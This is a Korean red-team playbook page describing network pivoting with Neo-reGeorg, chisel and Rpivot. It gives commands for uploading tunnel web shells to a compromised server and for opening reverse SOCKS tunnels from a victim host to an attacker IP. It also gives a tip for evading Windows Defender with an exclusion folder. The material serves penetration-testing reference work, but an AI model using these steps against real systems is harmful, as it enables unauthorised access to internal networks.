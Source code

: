 ```yaml
---
description: Pivoting에 자주 쓰이는 도구 간단 정리
---
```


# 네트워크 피버팅 - 툴

***

## Network Pivoting - Tools

### Neo-reGeorg

https://github.com/L-codes/Neo-reGeorg/blob/master/README-en.md

만약 탈취한 원격 명령 실행이 가능한 서버가 웹 서버라면 SSH 접속 정보가 없는 환경에서도 강제로 SOCK5 통신을 생성이 가능하다. Neo-reGeorg 도구는 jsp, asp, php, go를 지원한다.

가장 범용적으로 사용되는 jsp, php asp에 대한 사용법을 알아보자.

먼저 SOCK5 통신 오픈에 사용할 코드를 생성한다.

```bash
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.php
```

#### JSP

생성된 jsp 코드를 테스트용 웹 서버에 업로드한다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-001.png)

이후 neoreg.py를 통해 SOCK5 통신을 열면 127.0.0.1:1080이 활성화되는 것을 확인할 수 있다.

```bash
# attacker
$ python3 neoreg.py -k password -u http://pentest.yoobi.kr:10501/tunnel2/tunnel.jsp
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-002.png)

활성된 SOCK5 포트를 사용한 proxychains을 통해 내부망 접근이 가능하다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-003.png)

#### PHP

동일하게 테스트용 웹 서버에 tunnel.php 파일을 업로드한다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-004.png)

이후 neoreg.py를 통해 SOCK5 통신을 열면 127.0.0.1:1080이 활성화되는 것을 확인할 수 있다.

```bash
# attacker
$ python3 neoreg.py -k password -u http://pentest.yoobi.kr:10501/tunnel.php
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-005.png)

활성된 SOCK5 포트를 사용한 proxychains을 통해 내부망 접근이 가능하다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-006.png)

#### ASP

동일하게 테스트용 웹 서버에 tunnel.asp 파일을 업로드한다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-007.png)

이후 neoreg.py를 통해 SOCK5 통신을 열면 127.0.0.1:1080이 활성화되는 것을 확인할 수 있다.

```bash
python3 neoreg.py -k password -u http://pentest.yoobi.kr:10502/tunnel.aspx
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-008.png)

활성된 SOCK5 포트를 사용한 proxychains을 통해 내부망 접근이 가능하다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/neo-009.png)

이 처럼 Neo-reGeorg 도구를 활용하여 SSH 서비스에 대한 접속 정보가 없더라도 강제로 SOCK5 통신을 생성하여 proxychain 사용이 가능하다.

### chisel

https://github.com/jpillora/chisel

만약 탈취한 원격 명령 실행이 가능한 서버가 웹 서버가 아니더라도 chisel을 사용하여 강제로 sock5 포트를 열어서 proxychains을 사용할 수 있다. 해당 도구는 바이너리 형태로 제공되며 리눅스, 윈도우 모두 지원하기에 활용도가 매우 높다.

```bash
# attacker
$ chisel server -p 10505 --reverse
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/chisel-001.png)

#### Linux

```powershell
# victim
$ ./chisel_1.9.1_linux_amd64 client <attacker-ip>:10505 R:socks
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/chisel-002.png)

### Window

```powershell
# victim
> .\chisel.exe client <attacker-ip>:10505 R:socks
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/chisel-003.png)

단, 대부분 윈도우 서버는 윈도우 디펜더에서 chisel.exe를 악성코드로 탐지하고 있다. 탈취한 윈도우 서버의 권한이 높을 경우(Administrator, SYSTEM) 제외 폴더 지정을 통해 우회할 수 있다.

다음과 같이 연결 시, 127.0.0.1:1080 SOCK5 통신이 활성화되는 것을 확인할 수 있다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/chisel-004.png)

활성된 SOCK5 포트를 사용한 proxychains을 통해 내부망 접근이 가능하다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/chisel-005.png)

이 처럼 chicel 도구를 활용하여 SSH 서비스에 대한 접속 정보가 없고 탈취한 서버가 웹서버가 아니더라도 강제로 SOCK5 통신을 생성하여 proxychain 사용이 가능하다.

### Rpivot

https://github.com/klsecservices/rpivot

Rpivot 도구는 chisel과 유사하지만 바이너리 형태가 아닌 python 2 소스코드 형태의 도구이며 sock4 통신을 열 수 있다. 해당 도구를 사용하여 강제로 sock4 포트를 열어서 proxychains을 사용할 수 있다.

sock4 이므로 /etc/proxychains.conf 를 sock4로 수정 적용하여야 한다.

```powershell
$ cat /etc/proxychains.conf

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 1080
#socks5 127.0.0.1 1080
```

```powershell
# attacker
$ python2 server.py --server-port 10505 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/rpivot-001.png)

#### Linux

```powershell
# victim no need root
$ python client.py --server-ip <attacker-ip> --server-port 10505
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/rpivot-002.png)

#### Window

```powershell
# vicitm no need administrator
> C:\Python27\python.exe .\client.py --server-ip <attacker-ip> --server-port 10505
```

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/rpivot-003.png)

다음과 같이 연결 시, 127.0.0.1:1080 SOCK5 통신이 활성화되는 것을 확인할 수 있다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/rpivot-004.png)

활성된 SOCK4 포트를 사용한 proxychains을 통해 내부망 접근이 가능하다.

![Untitled](https://raw.githubusercontent.com/ChoiSG/kr-redteam-playbook/main/obsidian\_resources/rpivot-005.png)

해당 도구는 바이너리 형태가 아니기 때문에 python 2가 필요합니다. 대상 서버에 임의 설치가 불가한 상황이라면 python2 포터블을 활용할 수 있다.

for window

https://github.com/sganis/pyportable/releases/download/v2.7.10rc1/pyportable-2.7.10rc1.zip

이 처럼 rpivot 도구를 활용하여 SSH 서비스에 대한 접속 정보가 없고 탈취한 서버가 웹서버가 아니더라도 강제로 SOCK4 통신을 생성하여 proxychain 사용이 가능하다.

따라서, 주어진 환경에 맞춰 chisel과 rpivot 중 유동적으로 사용하자.
